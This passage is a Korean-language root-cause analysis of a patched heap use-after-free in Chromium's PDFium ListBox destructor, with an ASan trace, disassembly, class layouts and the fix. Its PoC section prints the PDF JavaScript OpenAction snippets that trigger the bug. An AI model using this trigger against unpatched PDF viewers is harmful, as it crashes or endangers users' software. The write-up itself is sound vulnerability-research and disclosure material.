        #15 0x556a122a0991 in CFFL_FormFiller::SetFocusForAnnot(CPDFSDK_Annot*, unsigned int) ./../../third_party/pdfium/fpdfsdk/formfiller/cffl_formfiller.cpp:260
        #16 0x556a122a0991 in ?? ??:0
        #17 0x556a122a899e in CFFL_InteractiveFormFiller::OnSetFocus(fxcrt::ObservedPtr<CPDFSDK_Annot>*, unsigned int) ./../../third_party/pdfium/fpdfsdk/formfiller/cffl_interactiveformfiller.cpp:401
        #18 0x556a122a899e in ?? ??:0
        #19 0x556a120d4889 in CPDFSDK_FormFillEnvironment::SetFocusAnnot(fxcrt::ObservedPtr<CPDFSDK_Annot>*) ./../../third_party/pdfium/fpdfsdk/cpdfsdk_formfillenvironment.cpp:708
        #20 0x556a120d4889 in ?? ??:0
        #21 0x556a1221d5c8 in CJS_Field::setFocus(CJS_Runtime*, std::__1::vector<v8::Local<v8::Value>, std::__1::allocator<v8::Local<v8::Value> > > const&) ./../../third_party/pdfium/fxjs/cjs_field.cpp:2526
        #22 0x556a1221d5c8 in ?? ??:0
        #23 0x556a1223ecca in void JSMethod<CJS_Field, &CJS_Field::setFocus>(char const*, char const*, v8::FunctionCallbackInfo<v8::Value> const&) ./../../third_party/pdfium/fxjs/js_define.h:128
        #24 0x556a1223ecca in ?? ??:0
        #25 0x556a0d1b7247 in v8::internal::FunctionCallbackArguments::Call(v8::internal::CallHandlerInfo) ./../../v8/src/api/api-arguments-inl.h:158
        #26 0x556a0d1b7247 in ?? ??:0
        #27 0x556a0d1b2f13 in v8::internal::MaybeHandle<v8::internal::Object> v8::internal::(anonymous namespace)::HandleApiCallHelper<false>(v8::internal::Isolate*, v8::internal::Handle<v8::internal::HeapObject>, v8::internal::Handle<v8::internal::HeapObject>, v8::internal::Handle<v8::internal::FunctionTemplateInfo>, v8::internal::Handle<v8::internal::Object>, v8::internal::BuiltinArguments) ./../../v8/src/builtins/builtins-api.cc:111
        #28 0x556a0d1b2f13 in ?? ??:0
        #29 0x556a0d1ae2ce in v8::internal::Builtin_Impl_HandleApiCall(v8::internal::BuiltinArguments, v8::internal::Isolate*) ./../../v8/src/builtins/builtins-api.cc:141
        #30 0x556a0d1ae2ce in ?? ??:0
        #31 0x556a0d1ad049 in v8::internal::Builtin_HandleApiCall(int, unsigned long*, v8::internal::Isolate*) ./../../v8/src/builtins/builtins-api.cc:129
        #32 0x556a0d1ad049 in ?? ??:0
        #33 0x556a10671b3e in Builtins_CEntry_Return1_DontSaveFPRegs_ArgvOnStack_BuiltinExit setup-isolate-deserialize.cc:?
        #34 0x556a10671b3e in ?? ??:0
        #35 0x556a1041f9f4 in Builtins_InterpreterEntryTrampoline setup-isolate-deserialize.cc:?
        #36 0x556a1041f9f4 in ?? ??:0
        #37 0x556a103fd69e in Builtins_ArgumentsAdaptorTrampoline setup-isolate-deserialize.cc:?
        #38 0x556a103fd69e in ?? ??:0
        #39 0x556a10415e39 in Builtins_JSEntryTrampoline setup-isolate-deserialize.cc:?
        #40 0x556a10415e39 in ?? ??:0
        #41 0x556a10415c17 in Builtins_JSEntry setup-isolate-deserialize.cc:?
        #42 0x556a10415c17 in ?? ??:0
        #43 0x556a0d5e3f51 in Call ./../../v8/src/execution/simulator.h:142
        #44 0x556a0d5e3f51 in Invoke ./../../v8/src/execution/execution.cc:368
        #45 0x556a0d5e3f51 in ?? ??:0
        #46 0x556a0d5e0add in v8::internal::Execution::Call(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Object>, v8::internal::Handle<v8::internal::Object>, int, v8::internal::Handle<v8::internal::Object>*) ./../../v8/src/execution/execution.cc:462
        #47 0x556a0d5e0add in ?? ??:0
        #48 0x556a0e4039a6 in v8::internal::Object::SetPropertyWithAccessor(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::Maybe<v8::internal::ShouldThrow>) ./../../v8/src/objects/objects.cc:1623
        #49 0x556a0e4039a6 in SetPropertyWithAccessor ./../../v8/src/objects/objects.cc:1587
        #50 0x556a0e4039a6 in ?? ??:0
        #51 0x556a0e4184e4 in v8::internal::Object::SetPropertyInternal(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::Maybe<v8::internal::ShouldThrow>, v8::internal::StoreOrigin, bool*) ./../../v8/src/objects/objects.cc:2503
        #52 0x556a0e4184e4 in ?? ??:0
        #53 0x556a0e4170ea in v8::internal::Object::SetProperty(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::internal::StoreOrigin, v8::Maybe<v8::internal::ShouldThrow>) ./../../v8/src/objects/objects.cc:2558
        #54 0x556a0e4170ea in ?? ??:0
        #55 0x556a0db2fb24 in v8::internal::StoreIC::Store(v8::internal::Handle<v8::internal::Object>, v8::internal::Handle<v8::internal::Name>, v8::internal::Handle<v8::internal::Object>, v8::internal::StoreOrigin) ./../../v8/src/ic/ic.cc:1567
        #56 0x556a0db2fb24 in ?? ??:0
        #57 0x556a0db4b89f in v8::internal::__RT_impl_Runtime_StoreIC_Miss(v8::internal::Arguments<(v8::internal::ArgumentsType)0>, v8::internal::Isolate*) ./../../v8/src/ic/ic.cc:2433
        #58 0x556a0db4b89f in ?? ??:0
        #59 0x556a10671a1e in Builtins_CEntry_Return1_DontSaveFPRegs_ArgvOnStack_NoBuiltinExit setup-isolate-deserialize.cc:?
        #60 0x556a10671a1e in ?? ??:0
        #61 0x556a10967dee in Builtins_StaNamedPropertyHandler setup-isolate-deserialize.cc:?
        #62 0x556a10967dee in ?? ??:0
    
    SUMMARY: AddressSanitizer: heap-use-after-free (/home/cwrong/chromium/src/out/First/chrome+0x2ae33223)
    Shadow bytes around the buggy address:
      0x0c0480007a60: fa fa fd fa fa fa fd fd fa fa fd fa fa fa fd fa
      0x0c0480007a70: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fa
      0x0c0480007a80: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fa
      0x0c0480007a90: fa fa fd fa fa fa 00 fa fa fa 00 fa fa fa fd fd
      0x0c0480007aa0: fa fa fd fd fa fa 00 fa fa fa fd fa fa fa fd fd
    =>0x0c0480007ab0: fa fa[fd]fa fa fa fd fa fa fa fd fa fa fa fd fa
      0x0c0480007ac0: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fa
      0x0c0480007ad0: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fd
      0x0c0480007ae0: fa fa fd fa fa fa 00 fa fa fa fd fa fa fa fd fa
      0x0c0480007af0: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fa
      0x0c0480007b00: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fa
    Shadow byte legend (one shadow byte represents 8 application bytes):
      Addressable:           00
      Partially addressable: 01 02 03 04 05 06 07
      Heap left redzone:       fa
      Freed heap region:       fd
      Stack left redzone:      f1
      Stack mid redzone:       f2
      Stack right redzone:     f3
      Stack after return:      f5
      Stack use after scope:   f8
      Global redzone:          f9
      Global init order:       f6
      Poisoned by user:        f7
      Container overflow:      fc
      Array cookie:            ac
      Intra object redzone:    bb
      ASan internal:           fe
      Left alloca redzone:     ca
      Right alloca redzone:    cb
      Shadow gap:              cc
    ==1==ABORTING
    ```
    

# Detail


## Root Cause

`third_party/pdfium/fpdfsdk/pwl/cpwl_kist_box.cpp:73` 에서 `CPWL_ListBox::~CPWL_ListBox()` 를 호출한다.

```cpp
73 CPWL_ListBox::~CPWL_ListBox() = default;
```

`~CPWL_ListBox()` 의 assembly code 일부분을 보면 다음과 같다.

- Whole code
    
    ```cpp
    	 0x555580387750 <~CPWL_ListBox()>:	push   rbp
       0x555580387751 <~CPWL_ListBox()+1>:	mov    rbp,rsp
       0x555580387754 <~CPWL_ListBox()+4>:	push   r14
       0x555580387756 <~CPWL_ListBox()+6>:	push   rbx
       0x555580387757 <~CPWL_ListBox()+7>:	add    BYTE PTR [rip+0x2124118b],0x1        # 0x5555a15c88e9
       0x55558038775e <~CPWL_ListBox()+14>:	mov    r14,rdi
       0x555580387761 <~CPWL_ListBox()+17>:	mov    rax,0xffffffffffffff60
       0x555580387768 <~CPWL_ListBox()+24>:	cmp    rbp,QWORD PTR fs:[rax]
       0x55558038776c <~CPWL_ListBox()+28>:	jae    0x555580387772 <~CPWL_ListBox()+34>
       0x55558038776e <~CPWL_ListBox()+30>:	mov    QWORD PTR fs:[rax],rbp
       0x555580387772 <~CPWL_ListBox()+34>:	mov    rax,r14
       0x555580387775 <~CPWL_ListBox()+37>:	shr    rax,0x3
       0x555580387779 <~CPWL_ListBox()+41>:	cmp    BYTE PTR [rax+0x7fff8000],0x0
       0x555580387780 <~CPWL_ListBox()+48>:	jne    0x555580387936 <~CPWL_ListBox()+486>
       0x555580387786 <~CPWL_ListBox()+54>:	lea    rax,[rip+0x1bd671a3]        # 0x55559c0ee930 <vtable for CPWL_ListBox+16>
       0x55558038778d <~CPWL_ListBox()+61>:	mov    QWORD PTR [r14],rax
       0x555580387790 <~CPWL_ListBox()+64>:	lea    rdi,[r14+0x158]
       0x555580387797 <~CPWL_ListBox()+71>:	mov    rax,rdi
       0x55558038779a <~CPWL_ListBox()+74>:	shr    rax,0x3
       0x55558038779e <~CPWL_ListBox()+78>:	cmp    BYTE PTR [rax+0x7fff8000],0x0
       0x5555803877a5 <~CPWL_ListBox()+85>:	jne    0x55558038793e <~CPWL_ListBox()+494>
       0x5555803877ab <~CPWL_ListBox()+91>:	mov    rdi,QWORD PTR [rdi]
       0x5555803877ae <~CPWL_ListBox()+94>:	test   rdi,rdi
       0x5555803877b1 <~CPWL_ListBox()+97>:	je     0x5555803877d3 <~CPWL_ListBox()+131>
       0x5555803877b3 <~CPWL_ListBox()+99>:	add    BYTE PTR [rip+0x21241131],0x1        # 0x5555a15c88eb
       0x5555803877ba <~CPWL_ListBox()+106>:	mov    rax,rdi
       0x5555803877bd <~CPWL_ListBox()+109>:	shr    rax,0x3
       0x5555803877c1 <~CPWL_ListBox()+113>:	mov    al,BYTE PTR [rax+0x7fff8000]
       0x5555803877c7 <~CPWL_ListBox()+119>:	test   al,al
       0x5555803877c9 <~CPWL_ListBox()+121>:	jne    0x5555803878fd <~CPWL_ListBox()+429>
       0x5555803877cf <~CPWL_ListBox()+127>:	mov    al,BYTE PTR [rdi]
       0x5555803877d1 <~CPWL_ListBox()+129>:	jmp    0x5555803877da <~CPWL_ListBox()+138>
       0x5555803877d3 <~CPWL_ListBox()+131>:	add    BYTE PTR [rip+0x21241110],0x1        # 0x5555a15c88ea
       0x5555803877da <~CPWL_ListBox()+138>:	lea    rdi,[r14+0x150]
       0x5555803877e1 <~CPWL_ListBox()+145>:	mov    rax,rdi
       0x5555803877e4 <~CPWL_ListBox()+148>:	shr    rax,0x3
       0x5555803877e8 <~CPWL_ListBox()+152>:	cmp    BYTE PTR [rax+0x7fff8000],0x0
       0x5555803877ef <~CPWL_ListBox()+159>:	jne    0x555580387943 <~CPWL_ListBox()+499>
       0x5555803877f5 <~CPWL_ListBox()+165>:	mov    rdi,QWORD PTR [rdi]
       0x5555803877f8 <~CPWL_ListBox()+168>:	test   rdi,rdi
       0x5555803877fb <~CPWL_ListBox()+171>:	je     0x55558038781d <~CPWL_ListBox()+205>
       0x5555803877fd <~CPWL_ListBox()+173>:	add    BYTE PTR [rip+0x212410e9],0x1        # 0x5555a15c88ed
       0x555580387804 <~CPWL_ListBox()+180>:	mov    rax,rdi
       0x555580387807 <~CPWL_ListBox()+183>:	shr    rax,0x3
       0x55558038780b <~CPWL_ListBox()+187>:	mov    al,BYTE PTR [rax+0x7fff8000]
       0x555580387811 <~CPWL_ListBox()+193>:	test   al,al
       0x555580387813 <~CPWL_ListBox()+195>:	jne    0x55558038790f <~CPWL_ListBox()+447>
       0x555580387819 <~CPWL_ListBox()+201>:	mov    al,BYTE PTR [rdi]
       0x55558038781b <~CPWL_ListBox()+203>:	jmp    0x555580387824 <~CPWL_ListBox()+212>
       0x55558038781d <~CPWL_ListBox()+205>:	add    BYTE PTR [rip+0x212410c8],0x1        # 0x5555a15c88ec
       0x555580387824 <~CPWL_ListBox()+212>:	lea    rax,[r14+0x148]
       0x55558038782b <~CPWL_ListBox()+219>:	mov    rcx,rax
       0x55558038782e <~CPWL_ListBox()+222>:	shr    rcx,0x3
       0x555580387832 <~CPWL_ListBox()+226>:	cmp    BYTE PTR [rcx+0x7fff8000],0x0
       0x555580387839 <~CPWL_ListBox()+233>:	jne    0x555580387948 <~CPWL_ListBox()+504>
       0x55558038783f <~CPWL_ListBox()+239>:	mov    rdi,QWORD PTR [rax]
       0x555580387842 <~CPWL_ListBox()+242>:	mov    QWORD PTR [rax],0x0
       0x555580387849 <~CPWL_ListBox()+249>:	test   rdi,rdi
       0x55558038784c <~CPWL_ListBox()+252>:	je     0x55558038788a <~CPWL_ListBox()+314>
       0x55558038784e <~CPWL_ListBox()+254>:	mov    rax,rdi
       0x555580387851 <~CPWL_ListBox()+257>:	shr    rax,0x3
       0x555580387855 <~CPWL_ListBox()+261>:	cmp    BYTE PTR [rax+0x7fff8000],0x0
       0x55558038785c <~CPWL_ListBox()+268>:	jne    0x555580387955 <~CPWL_ListBox()+517>
       0x555580387862 <~CPWL_ListBox()+274>:	mov    rax,QWORD PTR [rdi]
       0x555580387865 <~CPWL_ListBox()+277>:	test   rax,rax
       0x555580387868 <~CPWL_ListBox()+280>:	je     0x555580387893 <~CPWL_ListBox()+323>
       0x55558038786a <~CPWL_ListBox()+282>:	add    BYTE PTR [rip+0x2124107f],0x1        # 0x5555a15c88f0
       0x555580387871 <~CPWL_ListBox()+289>:	mov    rcx,rax
       0x555580387874 <~CPWL_ListBox()+292>:	shr    rcx,0x3
       0x555580387878 <~CPWL_ListBox()+296>:	mov    cl,BYTE PTR [rcx+0x7fff8000]
       0x55558038787e <~CPWL_ListBox()+302>:	test   cl,cl
       0x555580387880 <~CPWL_ListBox()+304>:	jne    0x555580387921 <~CPWL_ListBox()+465>
       0x555580387886 <~CPWL_ListBox()+310>:	mov    al,BYTE PTR [rax]
       0x555580387888 <~CPWL_ListBox()+312>:	jmp    0x55558038789a <~CPWL_ListBox()+330>
       0x55558038788a <~CPWL_ListBox()+314>:	add    BYTE PTR [rip+0x2124105d],0x1        # 0x5555a15c88ee
       0x555580387891 <~CPWL_ListBox()+321>:	jmp    0x55558038789f <~CPWL_ListBox()+335>
       0x555580387893 <~CPWL_ListBox()+323>:	add    BYTE PTR [rip+0x21241055],0x1        # 0x5555a15c88ef
       0x55558038789a <~CPWL_ListBox()+330>:	call   0x555570682070 <operator delete()>
       0x55558038789f <~CPWL_ListBox()+335>:	lea    rdi,[r14+0x140]
       0x5555803878a6 <~CPWL_ListBox()+342>:	mov    rax,rdi
       0x5555803878a9 <~CPWL_ListBox()+345>:	shr    rax,0x3
       0x5555803878ad <~CPWL_ListBox()+349>:	cmp    BYTE PTR [rax+0x7fff8000],0x0
       0x5555803878b4 <~CPWL_ListBox()+356>:	jne    0x555580387950 <~CPWL_ListBox()+512>
       0x5555803878ba <~CPWL_ListBox()+362>:	mov    rbx,QWORD PTR [rdi]
       0x5555803878bd <~CPWL_ListBox()+365>:	mov    QWORD PTR [rdi],0x0
       0x5555803878c4 <~CPWL_ListBox()+372>:	test   rbx,rbx
       0x5555803878c7 <~CPWL_ListBox()+375>:	je     0x5555803878e2 <~CPWL_ListBox()+402>
       0x5555803878c9 <~CPWL_ListBox()+377>:	add    BYTE PTR [rip+0x21241022],0x1        # 0x5555a15c88f2
       0x5555803878d0 <~CPWL_ListBox()+384>:	mov    rdi,rbx
       0x5555803878d3 <~CPWL_ListBox()+387>:	call   0x55558038af30 <~CPWL_ListCtrl()>
       0x5555803878d8 <~CPWL_ListBox()+392>:	mov    rdi,rbx
       0x5555803878db <~CPWL_ListBox()+395>:	call   0x555570682070 <operator delete()>
       0x5555803878e0 <~CPWL_ListBox()+400>:	jmp    0x5555803878e9 <~CPWL_ListBox()+409>
       0x5555803878e2 <~CPWL_ListBox()+402>:	add    BYTE PTR [rip+0x21241008],0x1        # 0x5555a15c88f1
       0x5555803878e9 <~CPWL_ListBox()+409>:	mov    rdi,r14
       0x5555803878ec <~CPWL_ListBox()+412>:	call   0x5555803a6b10 <~CPWL_Wnd()>
       0x5555803878f1 <~CPWL_ListBox()+417>:	mov    rdi,r14
       0x5555803878f4 <~CPWL_ListBox()+420>:	pop    rbx
       0x5555803878f5 <~CPWL_ListBox()+421>:	pop    r14
       0x5555803878f7 <~CPWL_ListBox()+423>:	pop    rbp
       0x5555803878f8 <~CPWL_ListBox()+424>:	jmp    0x555570682070 <operator delete()>
       0x5555803878fd <~CPWL_ListBox()+429>:	mov    ecx,edi
       0x5555803878ff <~CPWL_ListBox()+431>:	and    cl,0x7
       0x555580387902 <~CPWL_ListBox()+434>:	cmp    cl,al
       0x555580387904 <~CPWL_ListBox()+436>:	jl     0x5555803877cf <~CPWL_ListBox()+127>
       0x55558038790a <~CPWL_ListBox()+442>:	call   0x55557065dec0 <__asan_report_load1>
       0x55558038790f <~CPWL_ListBox()+447>:	mov    ecx,edi
       0x555580387911 <~CPWL_ListBox()+449>:	and    cl,0x7
       0x555580387914 <~CPWL_ListBox()+452>:	cmp    cl,al
       0x555580387916 <~CPWL_ListBox()+454>:	jl     0x555580387819 <~CPWL_ListBox()+201>
       0x55558038791c <~CPWL_ListBox()+460>:	call   0x55557065dec0 <__asan_report_load1>
       0x555580387921 <~CPWL_ListBox()+465>:	mov    edx,eax
       0x555580387923 <~CPWL_ListBox()+467>:	and    dl,0x7
       0x555580387926 <~CPWL_ListBox()+470>:	cmp    dl,cl
       0x555580387928 <~CPWL_ListBox()+472>:	jl     0x555580387886 <~CPWL_ListBox()+310>
       0x55558038792e <~CPWL_ListBox()+478>:	mov    rdi,rax
       0x555580387931 <~CPWL_ListBox()+481>:	call   0x55557065dec0 <__asan_report_load1>
       0x555580387936 <~CPWL_ListBox()+486>:	mov    rdi,r14
       0x555580387939 <~CPWL_ListBox()+489>:	call   0x55557065e3d0 <__asan_report_store8>
       0x55558038793e <~CPWL_ListBox()+494>:	call   0x55557065e070 <__asan_report_load8>
       0x555580387943 <~CPWL_ListBox()+499>:	call   0x55557065e070 <__asan_report_load8>
       0x555580387948 <~CPWL_ListBox()+504>:	mov    rdi,rax
       0x55558038794b <~CPWL_ListBox()+507>:	call   0x55557065e070 <__asan_report_load8>
       0x555580387950 <~CPWL_ListBox()+512>:	call   0x55557065e070 <__asan_report_load8>
       0x555580387955 <~CPWL_ListBox()+517>:	call   0x55557065e070 <__asan_report_load8>
    ```
    

```cpp
   0x55558038789a <~CPWL_ListBox()+330>:	call   0x555570682070 <operator delete()>
   0x55558038789f <~CPWL_ListBox()+335>:	lea    rdi,[r14+0x140]
   0x5555803878a6 <~CPWL_ListBox()+342>:	mov    rax,rdi
   0x5555803878a9 <~CPWL_ListBox()+345>:	shr    rax,0x3
   0x5555803878ad <~CPWL_ListBox()+349>:	cmp    BYTE PTR [rax+0x7fff8000],0x0
   0x5555803878b4 <~CPWL_ListBox()+356>:	jne    0x555580387950 <~CPWL_ListBox()+512>
   0x5555803878ba <~CPWL_ListBox()+362>:	mov    rbx,QWORD PTR [rdi]
   0x5555803878bd <~CPWL_ListBox()+365>:	mov    QWORD PTR [rdi],0x0
   0x5555803878c4 <~CPWL_ListBox()+372>:	test   rbx,rbx
   0x5555803878c7 <~CPWL_ListBox()+375>:	je     0x5555803878e2 <~CPWL_ListBox()+402>
   0x5555803878c9 <~CPWL_ListBox()+377>:	add    BYTE PTR [rip+0x21241022],0x1
   0x5555803878d0 <~CPWL_ListBox()+384>:	mov    rdi,rbx
   0x5555803878d3 <~CPWL_ListBox()+387>:	call   0x55558038af30 <~CPWL_ListCtrl()>
```

`CPWL_ListBox` class의 구조는 다음과 같다.

```cpp
class CPWL_ListBox : public CPWL_Wnd {
 public:
  CPWL_ListBox(
      const CreateParams& cp,
      std::unique_ptr<IPWL_SystemHandler::PerWindowData> pAttachedData);
  ~CPWL_ListBox() override;
	...

 protected:
  bool m_bMouseDown = false;                          
  bool m_bHoverSel = false;
  std::unique_ptr<CPWL_ListCtrl> m_pList;             // 0x140
  std::unique_ptr<CPWL_List_Notify> m_pListNotify;    // 0x148
  UnownedPtr<IPWL_Filler_Notify> m_pFillerNotify;     // 0x150

 private:
  UnownedPtr<CFFL_FormFiller> m_pFormFiller;
};
```

0x5555692518d5(asm) 에서 `m_pListNotify` 를 delete시킨다. `CPWL_List_Nofity` class의 구조는 다음과 같다.

```cpp
class CPWL_List_Notify {
 public:
  explicit CPWL_List_Notify(CPWL_ListBox* pList);
  ~CPWL_List_Notify();

  void IOnSetScrollInfoY(float fPlateMin,
                         float fPlateMax,
                         float fContentMin,
                         float fContentMax,
                         float fSmallStep,
                         float fBigStep);
  void IOnSetScrollPosY(float fy);
  void IOnInvalidateRect(CFX_FloatRect* pRect);

 private:
  UnownedPtr<CPWL_ListBox> m_pList;
};
```

0x5555692518d5(asm)에서 `m_pListNotify` 를 delete 시킴으로써, `CPWL_List_Notify::m_pList` 까지 delete된다.

이후 0x555569251903(asm)에서 `CPWL_ListBox::m_pList` 를 인자로 `~CPWL_ListCtrl` 을 호출한다. `third_party/pdfium/fpdfsdk/pwl/cpwl_list_impl.cpp:101` 에 있는 해당 코드는 다음과 같다.

```cpp
100 CPWL_ListCtrl::~CPWL_ListCtrl() {     
101   Clear();                      
102 }
```

`Clear()` 은 `third_party/pdfium/fpdfsdk/pwl/cpwl_list_impl.cpp:520` 에 있으며 코드는 다음과 같다.

```cpp
518 void CPWL_ListCtrl::Clear() {
519   m_ListItems.clear();
520   InvalidateItem(-1);
521 }
```

다시 `InvalidateItem()` 을 호출하는데 해당 함수는 `third_party/pdfium/fpdfsdk/pwl/cpwl_list_impl.cpp:358` 에 있으며 코드는 다음과 같다.

```cpp
352 void CPWL_ListCtrl::InvalidateItem(int32_t nItemIndex) {
353   if (m_pNotify) {
354     if (nItemIndex == -1) {
355       if (!m_bNotifyFlag) {
356         m_bNotifyFlag = true;
357         CFX_FloatRect rcRefresh = m_rcPlate;
358         m_pNotify->IOnInvalidateRect(&rcRefresh);
359         m_bNotifyFlag = false;
360       }
```

다시 `IOnInvalidateRect()` 를 호출하는데 해당 함수는 `third_party/pdfium/fpdfsdk/pwl/cpwl_list_box.cpp:64` 에 있으며 코드는 다음과 같다.

```cpp
 63 void CPWL_List_Notify::IOnInvalidateRect(CFX_FloatRect* pRect) {
 64   m_pList->InvalidateRect(pRect);
 65 }
```

여기서 앞에서 delete 되었던 `CPWL_List_Notify::m_pList` 가 다시 참조되면서 Use After free가 일어난다.

## POC

[uaf0.pdf](img/uaf0.pdf)

.png)

- Page 3, My Field 3에는 ComboBox가 있다.
- ComboBox는 Edit, Button, ListBox로 이루어져 있는데 이 중 ListBox의 소멸자에서 버그가 발생하였다.

1. PDF OpenAction Obj 41
- Page 2로 이동

```json
stream
var f = this.getField("MyField4");
f.setFocus();
endstream
```

1. Page 2 OpenAction Obj 25
- pageNum을 3으로 set

```json
stream
this.pageNum = 2;
this.pageNum = 3;
endstream
```

1. Page 4 OpenAction Obj 23
- Page 3으로 이동
- 이후 defineSetter를 통해서 f.setFocus()를 callback 함수로 binding

```json
stream
var f = this.getField("MyField3");        // ListBox
f.setFocus();
this.__defineSetter__("pageNum",function o(){f.setFocus();});    // Page 3
endstream
```

## Patch

[7dd9dbd6dd4959a568e7701da19871f859f8dce2 - pdfium - Git at Google](https://pdfium.googlesource.com/pdfium/+/7dd9dbd6dd4959a568e7701da19871f859f8dce2)

`/third_party/pdfium/fpdfsdk/pwl/cpwl_list_box.h:100` 에서 m_pList와 m_pListNotify의 순서가 바뀌었다.

```cpp
  protected:
   bool m_bMouseDown = false;
   bool m_bHoverSel = false;
+  std::unique_ptr<CPWL_List_Notify> m_pListNotify;  // Must outlive |m_pList|.
   std::unique_ptr<CPWL_ListCtrl> m_pList;
-  std::unique_ptr<CPWL_List_Notify> m_pListNotify;
   UnownedPtr<IPWL_Filler_Notify> m_pFillerNotify;
```

기존 버그의 Root cause가 `m_pListNotify` delete 이후 `m_pList` 의 소멸자 logic에서 `m_pListNotify` 를 참조해야 하였기 때문이기에 순서를 바꾸어 `m_pList` 의 소멸자 호출 이후 `m_pListNotify` 가 delete되도록 하였다.

# Conclusion


- `CPWL_ListBox` 의 소멸자 logic에서 멤버 변수들을 delete하는 도중 서로를 참조하고 있는 관계를 고려하지 않고 delete하여 발생한 heap-use-after-free 버그이다.
- PDF에는 ComboBox나 ListBox를 제외하고 다양한 Field들이 존재하고, 이들끼리의 참조관계가 복잡하게 연결되어 있기 때문에 할당과 해제에 있어서 정교한 순서 배열이 필요하다.


